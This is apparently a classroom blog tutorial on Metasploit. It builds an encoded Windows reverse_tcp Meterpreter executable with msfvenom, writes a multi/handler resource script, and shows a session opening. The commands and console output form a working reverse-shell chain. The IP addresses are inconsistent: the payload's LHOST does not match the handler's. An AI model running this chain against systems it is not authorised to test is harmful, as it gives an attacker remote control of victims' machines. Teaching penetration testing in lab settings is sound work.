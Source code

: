 ```yaml
---
title: Msf Runscript
date: 2021-04-07T15:25:21+05:30
lastmod: 2021-04-07T15:25:21+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://anir0y.in
cover: /img/cover.jpg
categories:
  - metasploit
  - classroom
tags:
  - msf
draft: false
---
```


#  WRITING METERPRETER SCRIPTS

There are a few things you need to keep in mind when creating a new Meterpreter script.

* Not all versions of Windows are the same
* Some versions of Windows have security countermeasures for some of the commands
* Not all command line tools are in all versions of Windows
* Some of the command line tools switches vary depending on the version of Windows

For our purposes, we are going to create a stand alone binary that will be run on the target system that will create a reverse Meterpreter shell back to us. This will rule out any problems with an exploit as we work through our script development.

```bash 
root@kali:~# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST=192.168.1.101 -b "\x00" -f exe -o Meterpreter.exe
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: Meterpreter.exe
```

Wonderful. Now, we move the executable to our Windows machine that will be our target for the script we are going to write. We just have to set up our listener. To do this, lets create a short script to start up multi-handler for us.

```bash 
root@kali:~# touch meterpreter.rc
root@kali:~# echo use exploit/multi/handler >> meterpreter.rc
root@kali:~# echo set PAYLOAD windows/meterpreter/reverse_tcp >> meterpreter.rc
root@kali:~# echo set LHOST 192.168.1.184 >> meterpreter.rc
root@kali:~# echo set ExitOnSession false >> meterpreter.rc
root@kali:~# echo exploit -j -z >> meterpreter.rc
root@kali:~# cat meterpreter.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.184
set ExitOnSession false
exploit -j -z
```

Now, all that remains is to start up msfconsole with our our resource script.
```bash
root@kali:~# msfconsole -r meterpreter.rc

       =[ metasploit v4.8.2-2014021901 [core:4.8 api:1.0] ]
+ -- --=[ 1265 exploits - 695 auxiliary - 202 post ]
+ -- --=[ 330 payloads - 32 encoders - 8 nops      ]

resource> use exploit/multi/handler
resource> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource> set LHOST 192.168.1.184
LHOST => 192.168.1.184
resource> set ExitOnSession false
ExitOnSession => false
resource> exploit -j -z
[*] Handler binding to LHOST 0.0.0.0
[*] Started reverse handler
[*] Starting the payload handler...
```

upon execution

```bash
[*] Sending stage (718336 bytes)
[*] Meterpreter session 1 opened (192.168.1.158:4444 -> 192.168.1.104:1043)

msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```